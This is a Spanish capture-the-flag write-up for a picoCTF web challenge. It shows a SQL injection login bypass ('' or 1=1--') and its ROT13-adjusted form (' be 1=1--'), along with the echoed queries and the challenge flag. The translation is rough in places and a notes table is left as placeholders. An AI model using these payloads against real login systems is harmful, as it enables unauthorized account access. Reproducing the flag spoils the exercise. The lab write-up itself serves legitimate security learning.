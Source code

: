 # Level 9
## Objetivo
There is a secure website running at `https://2019shell1.picoctf.com/problem/4161/` ([link](https://2019shell1.picoctf.com/problem/4161/)) or [http://2019shell1.picoctf.com:4161](http://2019shell1.picoctf.com:4161/). Try to see if you can login as admin!
## Pistas
> Seems like the password is encrypted
## Solucion
Esta vez, cuando inyectamos la misma inyección ' o 1=1--, obtenemos nuestra consulta cifrada:

contraseña: ' o 1=1--
Consulta SQL: SELECT * FROM admin where contraseña = '' be 1=1--'
Vemos que los caracteres alfabéticos 'o' y 'r' se han cambiado a 'b' y 'e'. Curioso. Intentemos poner cada letra del alfabeto después del comentario para ver exactamente qué tipo de encriptación es mientras configuramos la entrada oculta en 1 todavía.

contraseña: ' o 1=1--abcdefghijklmnopqrstuvwxyz
Consulta SQL: SELECCIONE * DESDE el administrador donde la contraseña = '' sea 1 = 1--nopqrstuvwxyzabcdefghijklm'
Ahora podemos confirmar que se trata de algún tipo de cifrado César. Los caracteres de la palabra OR se sustituyen por BE. Intentamos nuestra consulta de nuevo, esta vez siguiendo el cifrado, así: ' be 1=1--. El portal nos deja pasar y finalmente vemos nuestra bandera.

picoCTF{3v3n_m0r3_SQL_4424e7af}
## Notas Adicionales
|comando|descripcion|
|-------|-----------|
|xxx|xxx|
## Referencias